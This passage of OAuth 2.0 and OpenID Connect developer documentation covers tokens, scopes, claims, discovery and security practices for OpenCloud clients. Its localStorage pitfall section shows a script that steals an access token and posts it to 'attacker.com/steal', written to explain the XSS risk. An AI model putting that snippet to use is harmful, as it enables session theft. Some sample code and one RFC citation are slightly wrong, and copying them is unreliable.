**Purpose:** Get new access tokens without re-authenticating user.

**Format:** Opaque string (never JWT)

**Example:**

```txt
tGzv3JOkF0XG5Qx2TlKWIA
```

**Usage:**

```javascript
// Access token expired, get a new one
const response = await fetch('https://auth.example.com/token', {
  method: 'POST',
  body: new URLSearchParams({
    grant_type: 'refresh_token',
    refresh_token: 'tGzv3JOkF0XG5Qx2TlKWIA',
    client_id: 'OpenCloudAndroid'
  })
})

const newTokens = await response.json()
// Returns: new access_token, new refresh_token
// Usually NO new id_token (user already authenticated)
```

**Key characteristics:**

- **Long-lived:** Days, weeks, or months
- **Single use:** Some IDPs rotate it (issue new one each use)
- **Revocable:** User can revoke, invalidating all issued tokens
- **Requires `offline_access` scope:** Not granted by default

**Security considerations:**

- **Most sensitive token:** Can be used indefinitely until revoked
- **Must store securely:** Encrypted storage, never in browser localStorage
- **Only send to token endpoint:** Never to APIs
- **Scope restrictions:** New access token has same/fewer scopes as original

#### Token Lifecycle Example



#### When to Use Which Token

**Use ID Token when:**

- Displaying user's name/email in UI
- Making authorization decisions in client (check groups/roles)
- Personalizing user experience
- Storing user preferences

**Use Access Token when:**

- Calling backend APIs
- Accessing protected resources
- Making requests on user's behalf

**Use Refresh Token when:**

- Access token expired
- Want to maintain session without user re-login
- Background operations while user inactive

**Example application code:**

```javascript
class AuthManager {
  async login() {
    // Get authorization code, exchange for tokens
    const tokens = await this.exchangeCodeForTokens()

    // Store all tokens securely
    await this.secureStorage.save('id_token', tokens.id_token)
    await this.secureStorage.save('access_token', tokens.access_token)
    await this.secureStorage.save('refresh_token', tokens.refresh_token)

    // Parse ID token for user info
    this.userInfo = this.decodeJwt(tokens.id_token)
  }

  async callApi(endpoint) {
    let accessToken = await this.secureStorage.get('access_token')

    // Check if expired (decode JWT and check 'exp' claim)
    if (this.isTokenExpired(accessToken)) {
      // Refresh it
      accessToken = await this.refreshAccessToken()
    }

    // Make API call
    return fetch(endpoint, {
      headers: { 'Authorization': `Bearer ${accessToken}` }
    })
  }

  async refreshAccessToken() {
    const refreshToken = await this.secureStorage.get('refresh_token')
    const response = await fetch('https://auth.example.com/token', {
      method: 'POST',
      body: new URLSearchParams({
        grant_type: 'refresh_token',
        refresh_token: refreshToken
      })
    })

    const newTokens = await response.json()
    await this.secureStorage.save('access_token', newTokens.access_token)
    await this.secureStorage.save('refresh_token', newTokens.refresh_token)

    return newTokens.access_token
  }

  getUserDisplayName() {
    // Use ID token data
    return this.userInfo.name
  }
}
```

</details>

---

### Scopes & Claims Deep Dive

<details>
<summary>Click to expand: Understanding the relationship between scopes and claims</summary>

#### The Mental Model

**Think of scopes as menu items and claims as the food you receive:**

```javascript
// You order from menu (request scopes)
scope = "openid profile email"

// Kitchen prepares what you ordered (IDP gathers claims)
// based on what's available and what you're allowed to have

// You receive your meal (claims in ID token)
{
  "sub": "user123",              // From 'openid' - always included
  "name": "Alice Smith",         // From 'profile'
  "email": "alice@example.com"   // From 'email'
}
```

**Scopes are bundles:** Each scope unlocks a SET of related claims.

**Claims are granular:** Individual pieces of user data.

#### Standard Scopes and Their Claims

**From OIDC Core Specification Section 5.4:**

**`openid` scope** (Required for OIDC):

```javascript
// Always included
{
  "sub": "unique-user-id",        // Subject - Required
  "iss": "https://auth.example",  // Issuer - Required
  "aud": "client-id",             // Audience - Required
  "exp": 1735689600,              // Expiration - Required
  "iat": 1735686000               // Issued at - Required
}
```

**`profile` scope:**

```javascript
// MAY include (IDP decides based on available data)
{
  "name": "Alice Smith",
  "family_name": "Smith",
  "given_name": "Alice",
  "middle_name": "Marie",
  "nickname": "Ally",
  "preferred_username": "alice",
  "profile": "https://example.com/alice",
  "picture": "https://example.com/alice.jpg",
  "website": "https://alice.example",
  "gender": "female",
  "birthdate": "1990-01-15",
  "zoneinfo": "America/Los_Angeles",
  "locale": "en-US",
  "updated_at": 1735686000
}
```

**`email` scope:**

```javascript
{
  "email": "alice@example.com",
  "email_verified": true
}
```

**`address` scope:**

```javascript
{
  "address": {
    "formatted": "123 Main St\nSpringfield, IL 62701",
    "street_address": "123 Main St",
    "locality": "Springfield",
    "region": "IL",
    "postal_code": "62701",
    "country": "USA"
  }
}
```

**`phone` scope:**

```javascript
{
  "phone_number": "+1 (555) 123-4567",
  "phone_number_verified": false
}
```

**`offline_access` scope:**

- Special scope - doesn't add claims
- Grants a refresh token
- Allows offline access (app can refresh tokens without user present)

#### Non-Standard Scopes

**Common extensions (not in OIDC spec):**

**`groups` scope** (Authelia, Keycloak, Authentik, Azure AD, Okta):

```javascript
{
  "groups": ["admin", "editors", "viewers"]
}
```

**`roles` scope** (Some IDPs):

```javascript
{
  "roles": ["user-manager", "content-editor"]
}
```

**Custom scopes** - IDPs can define their own:

```javascript
// Keycloak example
{
  "realm_access": {
    "roles": ["admin", "user"]
  },
  "resource_access": {
    "opencloud": {
      "roles": ["editor"]
    }
  }
}
```

#### Scope Behavior: What Happens to Unknown Scopes?

**OAuth 2.0 RFC 6749 Section 3.3:**
> "If the issued access token scope is different from the one requested by the client, the
> authorization server MUST include the 'scope' response parameter to inform the client of the
> actual scope granted."

**Translation:** IDP can:

1. **Silently ignore** unknown scopes
2. **Return error** for unknown scopes
3. **Partially grant** (give some scopes, drop others)

**Example behaviors:**

```javascript
// Request with unknown scope
scope = "openid profile groups unknown-scope"

// Authelia/Keycloak: Silently ignore
response = {
  scope: "openid profile groups",  // 'unknown-scope' dropped
  id_token: "...",
  access_token: "..."
}

// Strict IDP: Error
response = {
  error: "invalid_scope",
  error_description: "Unknown scope: unknown-scope"
}
```

**This is why hardcoding scopes is risky** - behavior varies by IDP.

#### Claims Parameter - Alternative to Scopes

**OIDC Core Spec Section 5.5** defines the `claims` parameter for more granular control.

**Instead of requesting scope bundles, directly request specific claims:**

```javascript
// Traditional: Request scope bundle
GET /authorize?scope=openid profile

// Claims parameter: Request specific claims
GET /authorize?
  scope=openid
  &claims={
    "id_token": {
      "name": null,
      "picture": null
    }
  }
```

**JSON structure:**

```javascript
{
  "id_token": {              // Where to include claims
    "claim_name": null,      // null = just include it
    "email": {
      "essential": true      // Mark as required
    },
    "groups": {
      "values": ["admin"]    // Request specific value
    }
  },
  "userinfo": {              // Alternative: return from /userinfo
    "name": null
  }
}
```

**URL-encoded in request:**

```txt
claims=%7B%22id_token%22%3A%7B%22groups%22%3Anull%7D%7D
```

**Benefits of claims parameter:**

1. **Granular control:**

   ```javascript
   // Want name and picture, but not birthdate or gender
   claims = {
     "id_token": {
       "name": null,
       "picture": null
     }
   }
   // vs scope=profile (gets ALL profile claims)
   ```

2. **Predictable fallback:**
   - Unknown claims silently omitted (no error)
   - Spec mandates this behavior
   - More reliable than scope behavior

3. **Works without scope:**

   ```javascript
   // Can request claim even if scope doesn't exist
   scope = "openid"
   claims = {"id_token": {"groups": null}}
   ```

4. **Essential claims:**

   ```javascript
   // Mark claims as required
   claims = {
     "id_token": {
       "email": {"essential": true}  // Auth fails if unavailable
     }
   }
   ```

**Discovery check:**

```javascript
// Check if IDP supports claims parameter
const discovery = await fetch('https://auth.example.com/.well-known/openid-configuration')
const config = await discovery.json()

if (config.claims_parameter_supported === true) {
  // Safe to use claims parameter
  if (config.claims_supported.includes('groups')) {
    // And IDP knows about 'groups' claim
    useClaims = {"id_token": {"groups": null}}
  }
}
```

#### Real-World Example: The "groups" Problem

**Scenario:** OpenCloud needs `groups` claim for role assignment.

**Problem:** Desktop/mobile clients hardcode scopes without `groups`.

##### Option 1: Add groups scope (hardcoded)

```javascript
// Android hardcoded scopes
scope = "openid offline_access email profile groups"

// Risk: Some IDPs don't support 'groups' scope
// Result: Auth fails for those users
```

##### Option 2: Dynamic scope checking

```javascript
const discovery = await fetchDiscovery()
const scopes = ["openid", "offline_access", "email", "profile"]

if (discovery.scopes_supported.includes("groups")) {
  scopes.push("groups")
}

authorize(scopes)
```

##### Option 3: Claims parameter (most robust)

```javascript
const discovery = await fetchDiscovery()
const scopes = ["openid", "offline_access", "email", "profile"]
let claims = null

if (discovery.claims_parameter_supported === true &&
    discovery.claims_supported.includes("groups")) {
  claims = {
    "id_token": {
      "groups": null
    }
  }
}

authorize(scopes, claims)

// Fallback gracefully if groups not available
// No auth errors for incompatible IDPs
```

##### Option 4: Server-driven (ideal future state)

```javascript
// Client asks server what to request
const config = await fetch('https://opencloud.example.com/oidc/client-config')
const { scopes, claims } = await config.json()

// Server decides based on IDP and configuration
authorize(scopes, claims)
```

#### Scope vs Claims Decision Tree



</details>

---

### Discovery & Endpoints

<details>
<summary>Click to expand: Understanding OIDC Discovery and standard endpoints</summary>

#### What is OIDC Discovery?

**OIDC Discovery** (RFC 8414) is a standard mechanism for clients to learn about an IDP's
capabilities and endpoint locations.

**Every OIDC-compliant IDP MUST provide:**

```txt
https://{issuer}/.well-known/openid-configuration
```

**Purpose:**

- Client doesn't need IDP-specific configuration
- Discover endpoints dynamically
- Check supported features before using them
- Adapt to IDP capabilities

#### Discovery Endpoint Location

**CRITICAL: .well-known endpoint lives on the IDP, not the client app.**

**Examples:**

```javascript
// Authelia IDP
"https://auth.example.com/.well-known/openid-configuration"

// Keycloak IDP
"https://keycloak.example.com/realms/myrealm/.well-known/openid-configuration"

// Google IDP
"https://accounts.google.com/.well-known/openid-configuration"

// Azure AD IDP
"https://login.microsoftonline.com/{tenant}/v2.0/.well-known/openid-configuration"

// Okta IDP
"https://dev-12345.okta.com/.well-known/openid-configuration"
```

**Exception:** If the app IS the IDP (OpenCloud in built-in mode):

```javascript
"https://opencloud.example.com/.well-known/openid-configuration"
// OpenCloud acts as both app and IDP
```

#### Discovery Response Structure

**Minimal required fields:**

```javascript
{
  "issuer": "https://auth.example.com",
  "authorization_endpoint": "https://auth.example.com/api/oidc/authorization",
  "token_endpoint": "https://auth.example.com/api/oidc/token",
  "jwks_uri": "https://auth.example.com/api/oidc/jwks",
  "response_types_supported": ["code", "id_token", "token"],
  "subject_types_supported": ["public"],
  "id_token_signing_alg_values_supported": ["RS256"]
}
```

**Full example (Authelia-like):**

```javascript
{
  // Core endpoints (REQUIRED)
  "issuer": "https://auth.example.com",
  "authorization_endpoint": "https://auth.example.com/api/oidc/authorization",
  "token_endpoint": "https://auth.example.com/api/oidc/token",
  "jwks_uri": "https://auth.example.com/api/oidc/jwks",

  // Optional endpoints
  "userinfo_endpoint": "https://auth.example.com/api/oidc/userinfo",
  "end_session_endpoint": "https://auth.example.com/api/oidc/logout",
  "revocation_endpoint": "https://auth.example.com/api/oidc/revoke",
  "introspection_endpoint": "https://auth.example.com/api/oidc/introspect",
  "registration_endpoint": "https://auth.example.com/api/oidc/register",

  // Supported features
  "scopes_supported": [
    "openid",
    "profile",
    "email",
    "address",
    "phone",
    "groups",
    "offline_access"
  ],

  "claims_supported": [
    "sub",
    "name",
    "given_name",
    "family_name",
    "preferred_username",
    "email",
    "email_verified",
    "groups",
    "locale",
    "picture"
  ],

  "claims_parameter_supported": true,
  "request_parameter_supported": true,
  "request_uri_parameter_supported": false,

  // Grant types and flows
  "grant_types_supported": [
    "authorization_code",
    "refresh_token",
    "client_credentials"
  ],

  "response_types_supported": [
    "code",
    "code id_token",
    "id_token",
    "token id_token"
  ],

  "response_modes_supported": [
    "query",
    "fragment",
    "form_post"
  ],

  // Token signing
  "id_token_signing_alg_values_supported": [
    "RS256",
    "ES256"
  ],

  "userinfo_signing_alg_values_supported": [
    "RS256",
    "ES256",
    "none"
  ],

  // Subject types
  "subject_types_supported": [
    "public",
    "pairwise"
  ],

  // PKCE support
  "code_challenge_methods_supported": [
    "S256",
    "plain"
  ],

  // Token auth methods
  "token_endpoint_auth_methods_supported": [
    "client_secret_post",
    "client_secret_basic",
    "private_key_jwt",
    "none"
  ]
}
```

#### How Client Discovers IDP

**Multi-step discovery process:**



**OpenCloud-specific discovery:**

```javascript
// Step 1: User enters OpenCloud server URL
const opencloudUrl = "https://opencloud.example.com"

// Step 2: Get OpenCloud capabilities (OpenCloud-specific, not OIDC standard)
const capabilitiesResponse = await fetch(
  `${opencloudUrl}/ocs/v2.php/cloud/capabilities`
)
const capabilities = await capabilitiesResponse.json()
const idpIssuer = capabilities.ocs.data.capabilities.core.oidc.issuer
// Returns: "https://auth.example.com"

// Step 3: OIDC Discovery (standard)
const discoveryResponse = await fetch(
  `${idpIssuer}/.well-known/openid-configuration`
)
const discovery = await discoveryResponse.json()

// Step 4: Use discovered endpoints
const authEndpoint = discovery.authorization_endpoint
const tokenEndpoint = discovery.token_endpoint
```

#### Standard OIDC Endpoints

##### Authorization Endpoint

```http
GET https://auth.example.com/api/oidc/authorization
```

**Purpose:** Start auth flow, get user consent

**Parameters:**

```javascript
{
  response_type: "code",                    // Required: what you want back
  client_id: "OpenCloudAndroid",           // Required: your client ID
  redirect_uri: "oc://android.opencloud",  // Required: where to return
  scope: "openid profile email groups",    // Required: what you want access to
  state: "random-string",                  // Recommended: CSRF protection
  nonce: "random-string",                  // Recommended: replay protection
  code_challenge: "base64-string",         // PKCE: for public clients
  code_challenge_method: "S256",           // PKCE: hash method
  claims: '{"id_token":{"groups":null}}',  // Optional: specific claims
  prompt: "consent",                       // Optional: force consent screen
  max_age: 3600,                          // Optional: max auth age
  login_hint: "alice@example.com"         // Optional: pre-fill username
}
```

**Response (success):**

```http
HTTP/1.1 302 Found
Location: oc://android.opencloud?
  code=ABC123DEF456&
  state=random-string
```

**Response (error):**

```http
HTTP/1.1 302 Found
Location: oc://android.opencloud?
  error=invalid_scope&
  error_description=Unknown+scope:+unknown-scope&
  state=random-string
```

---

##### Token Endpoint

```http
POST https://auth.example.com/api/oidc/token
```

**Purpose:** Exchange authorization code for tokens, or refresh tokens

**Authorization Code Grant:**

```javascript
POST /token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code&
code=ABC123DEF456&
redirect_uri=oc://android.opencloud&
client_id=OpenCloudAndroid&
code_verifier=random-string  // PKCE
```

**Response:**

```javascript
{
  "access_token": "2YotnFZFEjr1zCsicMWpAA",
  "token_type": "Bearer",
  "expires_in": 3600,
  "refresh_token": "tGzv3JOkF0XG5Qx2TlKWIA",
  "id_token": "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...",
  "scope": "openid profile email groups"  // Actual granted scopes
}
```

**Refresh Token Grant:**

```javascript
POST /token
Content-Type: application/x-www-form-urlencoded

grant_type=refresh_token&
refresh_token=tGzv3JOkF0XG5Qx2TlKWIA&
client_id=OpenCloudAndroid&
scope=openid profile email  // Optional: reduce scope
```

**Response:**

```javascript
{
  "access_token": "NEW_ACCESS_TOKEN",
  "token_type": "Bearer",
  "expires_in": 3600,
  "refresh_token": "NEW_REFRESH_TOKEN"
  // Usually NO id_token (user already authenticated)
}
```

**Client Credentials Grant:**

```javascript
POST /token
Content-Type: application/x-www-form-urlencoded

grant_type=client_credentials&
scope=read:data write:data&
client_id=ServiceAccount&
client_secret=SECRET
```

---

##### UserInfo Endpoint

```http
GET https://auth.example.com/api/oidc/userinfo
```

**Purpose:** Fetch user claims (alternative to ID token)

**Request:**

```javascript
GET /userinfo
Authorization: Bearer {access_token}
```

**Response:**

```javascript
{
  "sub": "user-123",
  "name": "Alice Smith",
  "email": "alice@example.com",
  "email_verified": true,
  "groups": ["admin", "editors"]
}
```

**When to use:**

- ID token too large (URL size limits)
- Need fresh user data (ID token is snapshot)
- Want to keep PII out of ID token
- Access token is opaque (can't read claims)

---

##### JWKS Endpoint

```http
GET https://auth.example.com/api/oidc/jwks
```

**Purpose:** Get public keys to verify JWT signatures

**Response:**

```javascript
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-2024-01",
      "n": "0vx7agoebGcQSuuPiLJXZptN9nndrQmbXEps2aiAFb...",
      "e": "AQAB"
    }
  ]
}
```

**Usage:**

```javascript
// Verify ID token signature
const jwks = await fetch('https://auth.example.com/api/oidc/jwks')
const keys = await jwks.json()
const isValid = verifyJWT(idToken, keys)
```

#### Using Discovery in Practice

**Defensive client code:**

```javascript
class OIDCClient {
  constructor(opencloudUrl) {
    this.opencloudUrl = opencloudUrl
    this.discovery = null
  }

  async initialize() {
    // Step 1: Find IDP issuer (OpenCloud-specific)
    const capabilities = await this.getCapabilities()
    this.issuer = capabilities.ocs.data.capabilities.core.oidc.issuer

    // Step 2: Fetch OIDC discovery (standard)
    this.discovery = await this.fetchDiscovery()

    // Step 3: Validate required endpoints exist
    if (!this.discovery.authorization_endpoint) {
      throw new Error("IDP missing authorization_endpoint")
    }
    if (!this.discovery.token_endpoint) {
      throw new Error("IDP missing token_endpoint")
    }
  }

  async fetchDiscovery() {
    const response = await fetch(
      `${this.issuer}/.well-known/openid-configuration`
    )
    if (!response.ok) {
      throw new Error("OIDC discovery failed")
    }
    return response.json()
  }

  buildAuthUrl(scopes) {
    // Check if IDP supports requested scopes
    const supportedScopes = this.discovery.scopes_supported || []
    const safeScopes = scopes.filter(s =>
      supportedScopes.includes(s) || s === 'openid'  // openid always safe
    )

    // Check if we should use claims parameter
    let claimsParam = null
    if (this.discovery.claims_parameter_supported &&
        scopes.includes('groups') &&
        this.discovery.claims_supported?.includes('groups')) {
      claimsParam = {"id_token": {"groups": null}}
      // Remove 'groups' from scopes, use claims instead
      const index = safeScopes.indexOf('groups')
      if (index > -1) safeScopes.splice(index, 1)
    }

    const params = new URLSearchParams({
      response_type: 'code',
      client_id: 'OpenCloudAndroid',
      redirect_uri: 'oc://android.opencloud.eu',
      scope: safeScopes.join(' '),
      state: this.generateState(),
      nonce: this.generateNonce()
    })

    if (claimsParam) {
      params.append('claims', JSON.stringify(claimsParam))
    }

    return `${this.discovery.authorization_endpoint}?${params}`
  }

  async exchangeCode(code) {
    const response = await fetch(this.discovery.token_endpoint, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: new URLSearchParams({
        grant_type: 'authorization_code',
        code: code,
        redirect_uri: 'oc://android.opencloud.eu',
        client_id: 'OpenCloudAndroid'
      })
    })

    return response.json()
  }
}
```

</details>

---

### Security Considerations

<details>
<summary>Click to expand: Security best practices and common pitfalls</summary>

#### Token Security

**ID Token Validation (CRITICAL):**

```javascript
// ALWAYS validate these before trusting ID token
function validateIdToken(idToken, expectedClientId, expectedIssuer) {
  const decoded = decodeJWT(idToken)

  // 1. Verify signature with IDP's public key
  const jwks = await fetch(`${expectedIssuer}/.well-known/jwks`)
  const keys = await jwks.json()
  if (!verifySignature(idToken, keys)) {
    throw new Error("Invalid signature")
  }

  // 2. Verify issuer matches expected IDP
  if (decoded.iss !== expectedIssuer) {
    throw new Error(`Wrong issuer: ${decoded.iss}`)
  }

  // 3. Verify audience matches your client ID
  if (decoded.aud !== expectedClientId) {
    throw new Error(`Wrong audience: ${decoded.aud}`)
  }

  // 4. Verify not expired
  const now = Math.floor(Date.now() / 1000)
  if (decoded.exp < now) {
    throw new Error("Token expired")
  }

  // 5. Verify issued-at is reasonable (not too far in past/future)
  if (decoded.iat > now + 300) {  // 5 minute clock skew tolerance
    throw new Error("Token issued in future")
  }

  // 6. Verify nonce matches (if used)
  if (expectedNonce && decoded.nonce !== expectedNonce) {
    throw new Error("Nonce mismatch - possible replay attack")
  }

  return decoded
}
```

**Access Token Security:**

```javascript
// Storage
secureStorage.save('access_token', token)  // ✅ Encrypted storage
localStorage.setItem('access_token', token)  // ❌ NEVER - XSS vulnerable

// Transmission
fetch(url, {
  headers: {
    'Authorization': `Bearer ${token}`  // ✅ Header
  }
})

fetch(`${url}?access_token=${token}`)  // ❌ NEVER - logged in server logs
```

**Refresh Token Security (MOST CRITICAL):**

```javascript
// Refresh token is the most sensitive - can be used indefinitely

// ✅ DO:
- Store in encrypted storage only
- Never send to anyone except token endpoint
- Rotate on every use (if IDP supports it)
- Revoke when user logs out
- Set expiration (days/weeks, not months/years)

// ❌ DON'T:
- Store in localStorage/sessionStorage
- Send in URLs
- Log or transmit in cleartext
- Share across apps
```

#### PKCE (Proof Key for Code Exchange)

**Why PKCE matters for mobile/native apps:**

**Problem:** Authorization code can be intercepted in mobile apps (URL schemes not secure).

**Solution:** PKCE makes intercepted code useless.

**How it works:**

```javascript
// 1. App generates random string
const codeVerifier = generateRandomString(128)
// Example: "dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk"

// 2. Hash it
const codeChallenge = base64UrlEncode(sha256(codeVerifier))
// Example: "E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM"

// 3. Send challenge to /authorize
GET /authorize?
  code_challenge=E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM&
  code_challenge_method=S256&
  ...

// 4. Get authorization code
// Even if attacker intercepts: code=ABC123

// 5. Exchange code for tokens with verifier
POST /token
  code=ABC123&
  code_verifier=dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk

// 6. IDP verifies: sha256(verifier) == challenge
// Attacker doesn't have verifier → can't exchange code
```

**Always use PKCE for:**

- Native mobile apps
- SPAs (single page apps)
- Desktop apps
- Any public client (can't keep secrets)

#### State Parameter - CSRF Protection

**Why state matters:**

```javascript
// Without state - CSRF attack:
// 1. Attacker gets their own auth code
// 2. Tricks victim into visiting: your-app://callback?code=ATTACKER_CODE
// 3. Victim's app exchanges attacker's code
// 4. Victim now logged in as attacker!

// With state - protected:
// 1. App generates random state
const state = generateRandomString()
sessionStorage.setItem('oauth_state', state)

// 2. Include in /authorize
GET /authorize?state=xyz123&...

// 3. IDP returns state unchanged
callback: app://callback?code=ABC&state=xyz123

// 4. App verifies state matches
const savedState = sessionStorage.getItem('oauth_state')
if (receivedState !== savedState) {
  throw new Error("CSRF attack detected")
}
```

#### Nonce - Replay Protection

**Why nonce matters:**

```javascript
// Prevents token replay attacks

// 1. Generate random nonce before /authorize
const nonce = generateRandomString()
sessionStorage.setItem('oauth_nonce', nonce)

// 2. Include in /authorize
GET /authorize?nonce=abc123&...

// 3. IDP includes nonce in ID token
{
  "nonce": "abc123",
  ...
}

// 4. Verify nonce matches
const savedNonce = sessionStorage.getItem('oauth_nonce')
if (idToken.nonce !== savedNonce) {
  throw new Error("Token replay attack detected")
}
```

#### Common Security Pitfalls

**❌ Implicit Flow (Deprecated):**

```javascript
// DON'T USE - Deprecated in OAuth 2.0 Security Best Practices
GET /authorize?response_type=token  // ❌ Returns token in URL fragment

// Problems:
// - Tokens exposed in browser history
// - No refresh tokens
// - No client authentication
// - Vulnerable to XSS

// Use instead:
GET /authorize?response_type=code  // ✅ Authorization code flow with PKCE
```

**❌ Storing tokens in localStorage:**

```javascript
// ❌ VULNERABLE TO XSS
localStorage.setItem('access_token', token)

// Any injected script can steal:
const stolenToken = localStorage.getItem('access_token')
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: stolenToken
})

// ✅ Use secure storage
// - iOS: Keychain
// - Android: EncryptedSharedPreferences
// - Web: HttpOnly cookies (if possible)
```

**❌ Not validating redirect_uri:**

```javascript
// Server-side validation required:
function validateRedirectUri(clientId, requestedUri) {
  const registeredUris = getRegisteredUris(clientId)

  // ❌ WRONG - allows subdomain hijacking
  if (requestedUri.startsWith(registeredUris[0])) {
    return true
  }

  // ✅ CORRECT - exact match
  if (registeredUris.includes(requestedUri)) {
    return true
  }

  return false
}
```

**❌ Using Access Token for identity:**

```javascript
// ❌ WRONG - Access token not meant for identity
const accessToken = response.access_token
const userId = decodeJWT(accessToken).sub  // Don't do this

// Problems:
// - Access token might be opaque (can't decode)
// - Access token meant for resource servers, not client
// - Claims not guaranteed

// ✅ CORRECT - Use ID token
const idToken = response.id_token
const userInfo = decodeJWT(idToken)  // This is correct
```

#### Checklist for Secure Implementation

**Client-side:**

- [ ] Use PKCE for public clients
- [ ] Validate ID token (signature, iss, aud, exp)
- [ ] Use state parameter for CSRF protection
- [ ] Use nonce for replay protection
- [ ] Store tokens in secure storage (not localStorage)
- [ ] Never send tokens in URLs
- [ ] Implement token refresh before expiration
- [ ] Clear tokens on logout
- [ ] Use Authorization Code flow (not Implicit)

**Server-side:**

- [ ] Validate redirect_uri (exact match)
- [ ] Implement rate limiting on token endpoint
- [ ] Use short-lived access tokens (15-60 min)
- [ ] Rotate refresh tokens on use
- [ ] Implement token revocation
- [ ] Validate PKCE code_verifier
- [ ] Use HTTPS everywhere (no exceptions)
- [ ] Log security events (failed validations, etc.)

</details>

---

### Spec References

<details>
<summary>Click to expand: Links to specifications and key quotations</summary>

#### Core Specifications

##### OAuth 2.0 Authorization Framework

- **Spec:** [RFC 6749][rfc6749]
- **Published:** October 2012
- **Status:** Standards Track

**Key sections:**

- [Section 1.3: Authorization Grant](https://www.rfc-editor.org/rfc/rfc6749.html#section-1.3)
  > "An authorization grant is a credential representing the resource owner's authorization (to
  > access its protected resources) used by the client to obtain an access token."

- [Section 3.3: Access Token Scope](https://www.rfc-editor.org/rfc/rfc6749.html#section-3.3)
  > "If the issued access token scope is different from the one requested by the client, the
  > authorization server MUST include the 'scope' response parameter to inform the client of the
  > actual scope granted."

- [Section 4.1: Authorization Code Grant](https://www.rfc-editor.org/rfc/rfc6749.html#section-4.1)
  > "The authorization code grant type is used to obtain both access tokens and refresh tokens and
  > is optimized for confidential clients."

---

##### OpenID Connect Core 1.0

- **Spec:** [OIDC Core][oidc-core]
- **Published:** November 2014
- **Status:** Final

**Key sections:**

- [Section 3.1.3.1: Authentication
  Request](https://openid.net/specs/openid-connect-core-1_0.html#AuthRequest)
  > "OpenID Connect uses the following OAuth 2.0 request parameters with the Authorization Code
  > Flow: scope (REQUIRED), response_type (REQUIRED), client_id (REQUIRED), redirect_uri (REQUIRED)"

- [Section 5.4: Requesting Claims using Scope
  Values](https://openid.net/specs/openid-connect-core-1_0.html#ScopeClaims)
  > "The Claims requested by the profile, email, address, and phone scope values are returned from
  > the UserInfo Endpoint, when a userinfo_endpoint value is present in the Client's ID Token."

- [Section 5.5: Requesting Claims using the "claims" Request
  Parameter](https://openid.net/specs/openid-connect-core-1_0.html#ClaimsParameter)
  > "Claims requested by the Claims Parameter are not guaranteed to be returned. Individual Claims
  > can be omitted if they are not available."

- [Section 2: ID Token](https://openid.net/specs/openid-connect-core-1_0.html#IDToken)
  > "The primary extension that OpenID Connect makes to OAuth 2.0 to enable End-Users to be
  > Authenticated is the ID Token data structure."

---

##### OpenID Connect Discovery 1.0

- **Spec:** [OIDC Discovery][oidc-discovery]
- **Published:** November 2014
- **Status:** Final

**Key sections:**

- [Section 3: OpenID Provider
  Metadata](https://openid.net/specs/openid-connect-discovery-1_0.html#ProviderMetadata)
  > "The Issuer MUST provide its OpenID Provider Metadata at the path formed by concatenating the
  > string /.well-known/openid-configuration to the Issuer."

- [Section 4: Obtaining OpenID Provider Configuration
  Information](https://openid.net/specs/openid-connect-discovery-1_0.html#ProviderConfig)
  > "OpenID Providers supporting Discovery MUST make a JSON document available at the path formed by
  > concatenating /.well-known/openid-configuration to the Issuer."

---

##### OAuth 2.0 for Native Apps (BCP 212)

- **Spec:** [RFC 8252][rfc8252]
- **Published:** October 2017
- **Status:** Best Current Practice

**Key sections:**

- [Section 8.1: PKCE Required](https://www.rfc-editor.org/rfc/rfc8252.html#section-8.1)
  > "Clients MUST use PKCE (Proof Key for Code Exchange) as defined in RFC 7636 in order to protect
  > themselves from authorization code interception attacks."

---

##### OAuth 2.0 Security Best Current Practice

- **Spec:** [Draft][oauth-security]
- **Status:** Internet-Draft (active development)

**Key recommendations:**

- [Section 2.1.1: Implicit Grant
  Deprecated](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics#section-2.1.1)
  > "The implicit grant (response type 'token') and other response types causing the authorization
  > server to issue access tokens in the authorization response are vulnerable to access token
  > leakage and access token replay."

- [Section 4.1: Use of
  PKCE](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics#section-4.1)
  > "In order to prevent authorization code injection and authorization code replay, PKCE MUST be
  > used by public clients."

---

##### Proof Key for Code Exchange (PKCE)

- **Spec:** [RFC 7636][rfc7636]
- **Published:** September 2015
- **Status:** Standards Track

**Key sections:**

- [Section 4.1: Client Creates Code
  Verifier](https://www.rfc-editor.org/rfc/rfc7636.html#section-4.1)
  > "The client first creates a code verifier, 'code_verifier', for each OAuth 2.0 Authorization
  > Request, in the following manner: code_verifier = high-entropy cryptographic random STRING using
  > the unreserved characters [A-Z] / [a-z] / [0-9] / '-' / '.' / '_' / '~' from Section 2.3 of
  > [RFC3986], with a minimum length of 43 characters and a maximum length of 128 characters."

---

#### Additional References

##### JWT (JSON Web Token)

- **Spec:** [RFC 7519][rfc7519]

##### JWS (JSON Web Signature)

- **Spec:** [RFC 7515][rfc7515]

##### JWK (JSON Web Key)

- **Spec:** [RFC 7517][rfc7517]

---

#### Quick Reference: Which Spec Defines What?

| Topic                            | Specification          | Section  |
| -------------------------------- | ---------------------- | -------- |
| Access tokens, scopes            | OAuth 2.0 (RFC 6749)   | 1.3, 3.3 |
| Authorization Code flow          | OAuth 2.0 (RFC 6749)   | 4.1      |
| Refresh tokens                   | OAuth 2.0 (RFC 6749)   | 1.5, 6   |
| ID tokens                        | OIDC Core 1.0          | 2        |
| Standard scopes (profile, email) | OIDC Core 1.0          | 5.4      |
| Claims parameter                 | OIDC Core 1.0          | 5.5      |
| UserInfo endpoint                | OIDC Core 1.0          | 5.3      |
| Discovery (.well-known)          | OIDC Discovery 1.0     | 3, 4     |
| PKCE                             | RFC 7636               | All      |
| Native app best practices        | RFC 8252               | All      |
| Implicit flow deprecation        | OAuth 2.0 Security BCP | 2.1.1    |
| JWT format                       | RFC 7519               | All      |

---

#### Implementation Examples from Specs

**Standard claims (OIDC Core Section 5.1):**

From the spec:
> "The following Claims are the standard Claims that are expected to be used in an ID Token or
> UserInfo response:"

```javascript
{
